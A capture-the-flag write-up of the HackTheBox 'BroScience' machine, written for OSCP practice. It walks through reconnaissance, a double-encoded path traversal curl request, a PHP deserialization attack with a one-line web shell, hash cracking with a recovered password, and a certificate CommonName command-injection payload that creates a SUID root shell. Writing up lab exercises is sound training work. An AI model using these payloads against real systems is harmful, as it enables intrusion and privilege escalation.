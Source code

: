## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

### 🔍 Recon

#### 🌐 Ports Discovered (via `nmap`):
- [**22/tcp** - OpenSSH 8.4p1 (Debian)](SSH)
- [**80/tcp** - Apache 2.4.54, redirects to HTTPS](HTTP)
- **443/tcp** - Apache 2.4.54 (SSL-enabled)

```bash
nmap -p- --min-rate 10000 10.10.11.195
nmap -p 22,80,443 -sCV 10.10.11.195
```

#### 🌍 Website Behavior
- HTTP redirects to HTTPS (`https://broscience.htb`)
- Exercises accessible via `exercise.php?id=1`
- Requires registration + activation
- PHPSESSID cookie issued

#### 🔍 Directory Fuzzing
```bash
feroxbuster -u https://broscience.htb -x php -k --no-recursion
```
- Interesting endpoints: `index.php`, `register.php`, `login.php`, `user.php`, `activate.php`, `includes/img.php`

---

### 🐚 Shell as www-data

#### 🕳️ Directory Traversal (not LFI 😤)
- `/includes/img.php?path=` is vulnerable
- `..%252f` double-URL encoding bypasses filters

```bash
curl -k "https://broscience.htb/includes/img.php?path=..%252f..%252f..%252fetc%252fpasswd"
```

#### 📄 Source Read
- Dumped `/index.php`, `/includes/utils.php`, `/includes/db_connect.php`
- Found DB creds & salt `NaCl`
- Found unserialize on `user-prefs` cookie
- Found insecure `generate_activation_code()` using `srand(time())`

#### 🔓 Activation Code Forge
```php
md5($db_salt . $password);
```
- Brute-forced likely activation code based on server timestamp
- Activated user

#### 💥 PHP Deserialization to RCE
- Modified `user-prefs` cookie with `AvatarInterface` payload
- Hosted reverse shell via `cmd.php`
- Reached `/cmd.php?cmd=...`
- Reverse shell as `www-data`

```php
<?php system($_REQUEST['cmd']); ?>
```

---

### 🐚 Shell as bill

#### 🔎 Database Creds
- Used creds from `db_connect.php` to connect to PostgreSQL
- Dumped users table and cracked password hashes with:
```bash
hashcat -m 20 --user hashes rockyou.txt --show
```
- Cracked user bill's password: `iluvhorsesandgym`
- Switched user via `su - bill`

---

### 👑 Shell as root

#### 🔄 Cron Discovery (pspy)
- Found `/opt/renew_cert.sh` executed every 2 mins
- Reads from `/home/bill/Certs/broscience.crt`
- Vulnerable to command injection via `CommonName` field

#### 💣 Exploit
- Crafted certificate with payload:
```bash
CN = $(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)
```
- SetUID root shell dropped in `/tmp/0xdf`
- Executed `/tmp/0xdf -p` to get root

---

### 🏁 Flags
- **User:** `511395d5************************`
- **Root:** `e810aba4************************`

---

### 📬 Shoutout to 0xdf
- Blog: [0xdf hacks stuff](https://0xdf.gitlab.io/)
- Mastodon: `@0xdf@infosec.exchange`
- YouTube, Gitlab, Buy Me a Coffee ☕